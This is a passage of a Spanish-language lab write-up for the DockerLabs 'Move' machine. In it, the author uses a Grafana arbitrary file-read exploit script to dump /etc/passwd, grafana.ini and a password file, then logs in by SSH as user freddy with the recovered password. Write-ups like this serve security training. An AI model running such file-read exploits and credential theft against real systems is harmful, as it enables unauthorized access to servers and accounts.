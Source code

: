 ```bash
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:101::/nonexistent:/usr/sbin/nologin
ftp:x:101:104:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
sshd:x:102:65534::/run/sshd:/usr/sbin/nologin
grafana:x:103:105::/usr/share/grafana:/bin/false
freddy:x:1000:1000::/home/freddy:/bin/bash
```

Por otro lado, comprobamos también el fichero de configuración de Grafana para ver si obtenemos algo útil, pero no es el caso:

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs/Move]
└─$ python3 exploit.py -H http://172.17.0.2:3000                                          
Read file > /etc/grafana/grafana.ini
...
#################################### Database ####################################
[database]
# You can configure the database connection by specifying type, host, name, user and password
# as separate properties or as on string using the url properties.

# Either "mysql", "postgres" or "sqlite3", it's your choice
;type = sqlite3
;host = 127.0.0.1:3306
;name = grafana
;user = root
# If the password contains # or ; you have to wrap it with triple quotes. Ex """#password;"""
;password =
...
```

Recordemos que nos habían indicado anteriormente que en cierto fichero del sistema hay contenido que nos puede ser útil:

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs/Move]
└─$ python3 exploit.py -H http://172.17.0.2:3000
Read file > /tmp/pass.txt
t9sH76gpQ82UFeZ3GXZS
```

En el fichero `/etc/passwd` de la maquina victima vimos que el único usuario que podríamos usar para conectarnos seria `freddy`, por lo que probamos a conectarnos como dicho usuario, y la contrasena que acabamos de conseguir:

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs/Move]
└─$ ssh freddy@172.17.0.2
The authenticity of host '172.17.0.2 (172.17.0.2)' can't be established.
ED25519 key fingerprint is SHA256:vI77ttzFmsp8NiCsxBpeZipRCZ9MdfkeMJojz7qMiTw.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.17.0.2' (ED25519) to the list of known hosts.
freddy@172.17.0.2's password: 
Linux c6b30fd1dfdb 6.16.8+kali-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.16.8-1kali1 (2025-09-24) x86_64

The programs included with the Kali GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.
```